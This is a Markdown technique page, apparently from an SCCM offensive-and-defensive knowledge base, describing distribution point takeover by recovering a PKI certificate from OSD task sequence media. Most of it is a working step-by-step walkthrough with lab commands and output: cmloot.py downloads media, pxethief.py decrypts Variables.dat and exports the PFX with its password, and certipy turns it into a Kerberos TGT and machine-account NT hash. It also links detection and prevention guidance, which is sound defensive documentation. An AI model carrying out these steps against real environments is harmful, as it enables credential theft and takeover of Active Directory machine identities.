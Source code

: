 # ELEVATE-5

## Description
Distribution Point Takeover via OSD Media Recovery


## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements
One of the following:
- Connectivity to SMB on a Distribution Point OR
- Connectivty to HTTP(s) on a Distribution Point

And one of the following:
- Valid Active Directory domain credentials
- Anonymous authentication enabled on the distribution point

## Summary
SCCM sites may optionally be configured to support public-key infrastructure (PKI) certificates for secure communications. For deployments with internet-based site systems, PKI certificates are required. When deployed, the distribution point (DP) role requires its PKI certificate to support client authentication and for the private key to be exportable. The certificate is used by the DP to support communication with HTTPS enabled management points. During OSD task sequence media, the certificate is imported where required to support HTTPS communications to management points during operating system deployment. For environments that leverage Microsoft's PKI solution Active Directory Certificate Services (AD CS), the certificate generated for the DP role may be used to authenticate as the DP's host AD machine account. An attacker who is able to successfully recover the PKI certificate from the OSD task sequence variables file contents may gain control of the certificate's AD identity.

## Impact

 The impact of recovery is environment dependent. At a minimuim, based on Microsoft's [documentation](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed) an attacker that recovers this certificate can impersonate a DP's AD identity and compromise the host system.

## Defensive IDs
- [DETECT-7: Monitor read access to the SMSTemp directory](../../../defense-techniques/DETECT/DETECT-7/detect-7_description.md)
- [PREVENT-6: Configure a strong PXE boot password](../../../defense-techniques/PREVENT/PREVENT-6/prevent-6_description.md)

## Examples

1. On the attacker server, using cmloot.py triage the content library for common OSD media formats like .WIM or .ISO

```
┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser:password@10.6.10.12 -cmlootinventory sccmfiles.txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] Access to SCCMContentLib on 10.6.10.12
[+] sccmfiles.txt created

┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser:password@10.6.10.12 -cmlootdownload sccmfiles.txt -extensions WIM ISO
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] sccmfiles.txt exists. Remove it if you want to recreate the inventory.
[+] Extensions to download ['WIM', 'ISO']
[+] Creating CMLootOut
[+] Downloaded D55D-boot.12300002.wim
[+] Downloaded 3203-win11.wim
[+] Downloaded 8A5E-prestaged.wim
```
2. Using an archiving tool such as 7zip, parse the recovered media files for and extract the Variables.dat task sequence variables file.

```
┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot/CMLootOut]
└─# 7z l 8A5E-prestaged.wim|grep -i Variables.dat
2025-06-19 16:23:53 ....A        24248        24248  SMS/data/Variables.dat

```
3. Use pxethief.py to extract the PKI certificate from the recovered variables file

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# python3 /home/kali/PXEThief/pxethief.py 3 Variables.dat

 ________  ___    ___ _______  _________  ___  ___  ___  _______   ________
|\   __  \|\  \  /  /|\  ___ \|\___   ___\\  \|\  \|\  \|\  ___ \ |\  _____\
\ \  \|\  \ \  \/  / | \   __/\|___ \  \_\ \  \\\  \ \  \ \   __/|\ \  \__/
 \ \   ____\ \    / / \ \  \_|/__  \ \  \ \ \   __  \ \  \ \  \_|/_\ \   __\
  \ \  \___|/     \/   \ \  \_|\ \  \ \  \ \ \  \ \  \ \  \ \  \_|\ \ \  \_|
   \ \__\  /  /\   \    \ \_______\  \ \__\ \ \__\ \__\ \__\ \_______\ \__\
    \|__| /__/ /\ __\    \|_______|   \|__|  \|__|\|__|\|__|\|_______|\|__|
          |__|/ \|__|

[+] Attempting to decrypt media variables file and retrieve policies and passwords from MECM Server...
[+] User did not supply password. Making use of default MECM media variables password (only works for non-password protected media)
[+] Media variables file to decrypt: Variables.dat
[+] Password provided: {BAC6E688-DE21-4ABE-B7FB-C9F54E6DB664}
[+] Successfully decrypted media variables file with the provided password!
[!] Writing media variables to variables.xml
[!] Writing _SMSTSMediaPFX to 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx. Certificate password is 8AE6B618-77EC-46CB-B1B5-88F693E
[+] Identifying Management Point URL from media variables (Subsequent requests may fail if DNS does not resolve!)
[+] Management Point URL set to: https://sccm-mgmt.ludus.domain
```

3. Inspect the certificate with openssl to confirm it's an AD CS certificate and contains the client authentication EKU

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# openssl \
-in 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx \
-passin pass:8AE6B618-77EC-46CB-B1B5-88F693E \
-nokeys -clcerts | openssl x509 -text -certopt no_pubkey,no_sigdump -noout
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            13:00:00:00:1b:3f:6d:ff:d3:07:16:36:2c:00:00:00:00:00:1b
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC=domain, DC=ludus, CN=ludus-CA
        Validity
            Not Before: Jun  2 19:35:17 2025 GMT
            Not After : Jun  2 19:35:17 2026 GMT
        Subject:
        X509v3 extensions:
            Microsoft certificate template:
                0/.'+.....7.....k...............6.=...t...y..d...
            X509v3 Extended Key Usage:
                TLS Web Client Authentication
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            Microsoft Application Policies Extension:
                0.0
..+.......
            X509v3 Subject Key Identifier:
                62:55:1A:83:88:8E:1B:03:0C:76:2E:84:87:5F:B2:D0:27:92:2B:DB
            X509v3 Authority Key Identifier:
                74:86:80:EB:30:51:04:4D:D8:32:A0:33:7D:BB:77:24:18:C5:50:65
            X509v3 CRL Distribution Points:
                Full Name:
                  URI:ldap:///CN=ludus-CA,CN=DC01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access:
                CA Issuers - URI:ldap:///CN=ludus-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?cACertificate?base?objectClass=certificationAuthority
            X509v3 Subject Alternative Name: critical
                DNS:sccm-distro.ludus.domain

```


4. Use certipy to authenticate on behalf of the recovered certificate's identity.

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# certipy auth -pfx 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx -password 8AE6B618-77EC-46CB-B1B5-88F693E -dc-ip 10.6.10.10
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'sccm-distro.ludus.domain'
[*] Using principal: 'sccm-distro$@ludus.domain'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'sccm-distro.ccache'
[*] Wrote credential cache to 'sccm-distro.ccache'
[*] Trying to retrieve NT hash for 'sccm-distro$'
[*] Got hash for 'sccm-distro$@ludus.domain': aad3b435b51404eeaad3b435b51404ee:b8388cab9a861556b6132ae7e4de71c5

```


## References
- Christopher Panayi, [pxethief](https://github.com/MWR-CyberSec/PXEThief)
- Christopher Panayi, [Identifying and retrieving credentials from SCCM/MECM Task Sequences](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences)
- CRED-1, [Retrieve secrets from PXE boot media](../../CRED/CRED-1/cred-1_description.md)
- ELEVATE-4, [Distribution Point Takeover via PXE Boot Spoofing](../ELEVATE-4/ELEVATE-4_description.md)
- Microsoft, [PKI certificate requirements for Configuration Manager](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#task-sequence-media-for-deploying-operating-systems)


